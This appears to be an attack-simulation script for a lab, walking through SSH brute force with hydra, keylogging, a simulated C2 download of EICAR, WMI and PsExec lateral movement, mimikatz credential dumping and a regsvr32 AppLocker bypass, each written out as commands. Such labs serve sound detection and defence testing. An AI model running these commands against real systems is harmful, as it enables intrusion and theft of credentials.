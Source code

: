 # Script

## Target and attack: Bruteforce SSH
> Use hydra with user and password lists to bruteforce SSH access
On attacker1:
```
cd /usr/share/wordlists
cp rockyou.txt.gz dce.txt.gz
gunzip dce.txt.gz
echo "$(head -n 15 dce.txt)" > dce.txt
echo "admin" >> dce.txt
echo "office" >> dce.txt
echo "John" >> dce.txt
echo "Jane" >> dce.txt
echo "Susan" >> dce.txt

hydra -I -L dce.txt -P dce.txt victim1 -t 4 ssh
```

Use the account credentials that were identified in the bruteforce attack to open a SSH session on victim1.

## Install and exploit: Suspicious process execution
> Run `logkeys` and `slowloris.pl` to capture credentials and do internal reconnaissance
On victim1:
```
logkeys --start
perl slowloris.pl -dns server.contoso.com
```

## Post breach: Command and control (C2) communication
> Download EICAR to simulate C2 communication and/or data exfiltration
On victim1:
```
ip=`dig +short eicar.com`
wget http://$ip/download/eicar.com
rm -f eicar.com
```

## Process Execution with WMI
> Use WMI to build a backdoor (See page 17/18 of [Abusing Windows Management Instrumentation by Matt Graeber](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf) for more information on this technique)
```
wmic /node:"victim2" process call create "cmd.exe /c copy c:\windows\system32\svchost.exe c:\malicious\svchost.exe"
wmic /node:"victim2" process call create "cmd.exe /c c:\malicious\svchost.exe"
```

## Lateral movement
> Start a remote shell on the victim, verify by running `hostname` and start `mimikatz`
```
c:\tools\psexec\PsExec.exe /accepteula \\victim2 cmd
hostname
c:\tools\mimikatz\x64\mimikatz
```

> In mimikatz execute the following commands and verify if the hashes are visible
```
privilege::debug
sekurlsa::logonpasswords
exit
```

## Arbitrary code execution
> Use regsvr32 to run arbitrary code on the victim and bypass AppLocker (while in the remove shell)
```
cd c:\malicious
regsvr32.exe /s /u /i:C:\tools\test.sct scrobj.dll
```